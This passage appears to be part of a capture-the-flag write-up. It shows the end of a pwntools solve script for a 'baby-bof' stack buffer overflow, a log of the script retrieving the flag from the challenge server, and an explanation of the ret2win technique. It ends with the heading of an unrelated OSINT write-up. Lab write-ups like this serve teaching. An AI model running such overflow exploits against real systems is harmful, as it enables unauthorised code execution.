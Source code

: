 ```python
    try:
        io.sendlineafter(b"Spune ceva:", payload)
    except EOFError:
        # If prompt text differs, just send it
        io = start()
        io.sendline(payload)

    # Read everything (prints flag on remote)
    try:
        print(io.recvall(timeout=3).decode(errors="ignore"))
    except Exception:
        pass

if __name__ == '__main__':
    main()
```

Save as `solve.py`.

---

## Running

**Remote (got the real flag):**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 baby-bof.py REMOTE = 1
[+] Opening connection to ctf.ac.upt.ro on port 9021: Done
[*] win = 0x401196
[*] offset = 72
[+] Receiving all data: Done (71B)
[*] Closed connection to ctf.ac.upt.ro port 9021

ctf{3c1315f63d550570a690f693554647b7763c3acbc806ae846ce8d25b5f364d10}
```
                                     
---

## Why this works

* **Control of RIP:** `read()` overflows stack and overwrites the return address.
* **Fixed address:** No PIE → `win()` address is known at load time.
* **No canary:** Nothing stops the overwrite.
* **NX likely enabled:** But we don’t need shellcode—just call `win()` (ret2win).

---


here’s a clean, reproducible write-up you can drop into your repo.

# Write-up - prison (OSINT)
